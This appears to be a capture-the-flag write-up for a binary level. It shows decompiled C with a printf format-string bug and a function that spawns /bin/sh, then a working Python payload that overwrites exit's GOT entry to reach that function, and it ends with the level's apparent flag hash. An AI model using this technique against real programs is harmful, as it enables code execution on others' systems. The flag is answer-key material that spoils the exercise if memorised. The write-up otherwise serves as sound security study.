 ```c
void o(void)
{
  system("/bin/sh");
  _exit(1);
}

void n(void)
{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  exit(1);
}

void main(void)
{
  n();
  return;
}
```

Here the idea is the same as writing to a variable, however with a twist: we'll instead write to a pointer !
Since a pointer is basically an int in disguise, we can change it's value with the printf exploit. Since we need to reach the function `o`, we can change the pointer of `exit` to make it point to `o`.

o = `0x080484a4` -> `134513828`
exit = `*0x8049838`

```bash
python -c 'print "\x38\x98\x04\x08" + "%134513824x%4$n"' | ./level5
                                        ^^^^^^^^^ o - 4
```
`d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31`
